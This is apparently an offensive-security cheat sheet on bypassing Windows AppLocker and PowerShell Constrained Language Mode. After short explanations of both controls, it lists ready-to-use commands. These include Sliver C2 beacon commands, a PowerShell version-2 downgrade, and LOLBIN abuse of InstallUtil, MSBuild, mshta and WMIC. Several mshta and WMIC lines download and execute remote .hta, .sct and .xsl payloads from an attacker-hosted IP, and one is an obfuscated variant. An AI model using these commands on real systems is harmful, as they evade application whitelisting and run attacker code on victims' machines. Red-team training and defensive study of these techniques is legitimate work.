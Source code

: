 # AppLocker - CLM Bypass

## **AppLocker**

AppLocker is a windows feature designed to control which users can run what programs. Uses rules for executables with a Publisher signature; allow anything signed by Microsoft - File Path, File Hash or by User or Security Group Scope assignment.

AppLocker is a binary-level execution control policy that determines which apps or scripts can or cannot run based on:

* File Path
* Publisher signature
* User and Security Group scoping
* Targets specific filetypes.

AppLocker covers the following filetypes:

* Executables - `.exe`, `.dll`
* Installers - `.msi`, `.msp`
* Scripts - `.bat`, `.cmd`, `.vbs`, `.js`, `.ps1`

Many AppLocker Rules are configured to block unsigned or non-whitelisted `.exe` files. AppLocker doesn't care where the binary comes from, but where (whitelisted directory) it runs it from, the file type, and if its signed or not.

## Constrained Language Mode (CLM)&#x20;

Constrained Language Mode (CLM) is a security feature in PowerShell designed to limit the use of potentially dangerous APIs and .NET features. When active, CLM limits PowerShell to a small subset of its full functionality, disabling powerfull features:&#x20;

* COM Object creation
* Reflection (`Invoke-ReflectivePEInjection`, `Add-Type`, etc)
* Invocation of dynamically compiled code
* Access to custom .NET assemblies

## LOLBINs&#x20;

LOLBINs or Living off the Land Binaries are commonly used Microsoft utilities that allow the ability to bypass AppLocker and CLM restrictions usually set through Group Policies (GPO). These conditions apply to the following:&#x20;

* InstallUltil.exe
* MSBuild.exe
* MSHTA.exe
* WMIC (XSL)

#### AppLocker Bypass Conditions

* installutil.exe is a Microsoft-signed binary
* located in whitelisted paths `` C:\Windows\...` ``&#x20;
* not commonly blocked

#### CLM Bypass Conditions

* Creating run-space for powershell to execute within .NET assembly (running via LOLBINs)
* Can run powershell in memory



***

## CLM Bypass

### Enumeration

```powershell
# powershell commandlet to run
PS C:\Windows\Temp > $ExecutionContext.SessionState.LanguageMode
# expected output if CLM is enabled
Mode
ConstrainedLanguage
```

### Sliver - Constrained Language Mode (CLM) Bypass

{% code overflow="wrap" %}
```bash
# For disabling in sliver, leverage sharpsh with its built in CLM bypass
sliver (beacon) > sharpsh -- -c '$ExecutionContext.SessionState.LanguageMode'

# For use with the CLM bypass executable - however unnecessary in most cases or need to use a windows terminal (sliver shell mode) 
sliver (beacon) > sideload /home/kali/ToolLibrary/CLMBypass/CLMBypass.exe

# All sliver shell code runners will be located in ToolLibrary/Sliver-Setup and ToolLibrary/Sliver-Setup-HTTPS
```
{% endcode %}

### Shell - Constrained Language Mode (CLM) Bypass

```bash
# a PowerShell downgrade to version 2,
C:\> powershell.exe -version 2

# Creating a new runspace with COM objects,
PS C:\> New-Object -ComObject WScript.Shell
```

***

## AppLocker Bypass

### Enumeration

```bash
# Find whitelisted directories
\home\kali\ToolLibrary\AppLocker-Enum\enumeratePaths.ps1

# Run via sliver interactive
sliver > sharpsh -- '-u http://192.168.45.227/enumeratePaths.ps1`
```

***

## InstallUtil

using `InstallUtil.exe` is a classic LOLBIN (Living Off The Land Binary) technique that can bypass AppLocker and CLM  under certain conditions for .NET-based payload delivery.&#x20;

### References

```bash
# utility location
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe

# Basic Execution
InstallUtil.exe /logfile= /LogToConsole=false /u payload.exe
```

***

## MSBuild

using `msbuild.exe` is another LOLBIN that uses Microsoft's build engine for compiling .NET applications that can also execute inline tasks (embedded C# code) making it an ideal candidate to bypass AppLocker and CLM restrictions.&#x20;

### References

```bash
# utility location (32-bit)
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe
# utility location (64 bit)
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe

# Basic Execution
MSBuild.exe bypass.xml
```

***

## MSHTA

using `mshta.exe` is another LOLBIN that uses Microsoft's HTML Applications (MSHTA) to bypass AppLocker and CLM. This is used to execute embedded scripts (`vbscript` or `jscript`) within an `payload.hta` file with full access to Windows Script Host environment.&#x20;

### References

{% code overflow="wrap" %}
```bash
# utility location (32-bit)
C:\Windows\System32\mshta.exe
# utility location (64-bit)
C:\Windows\SysWOW64\mshta.exe

# Basic Execution
mshta.exe http://192.168.45.227/bypass.hta

# Basic Execution of jscript
mshta.exe "javascript:GetObject('script:http://192.168.45.277/bypass.sct');close();"
# slightly offuscated Execution of Jscript
mshta.exe "javascript:a=GetObject;b='script:http://192.168.45.227/bypass.sct';a(b);close();"
```
{% endcode %}

***

## XSL - WMIC

Windows Management Instrumentation Command-Line (WMIC) is another Microsoft-signed binary LOLBIN desinged to query and control system management information. WMIC has capability to parse and execute XSL (XML Stylesheet Langauge) files and be abused to execute malicious scripts or binaries.&#x20;

### References

```bash
# utility location
C:\Windows\System32\wbem\wmic.exe

# Basic execution
wmic process get /format:"http://192.168.45.227/bypass.xsl"
```
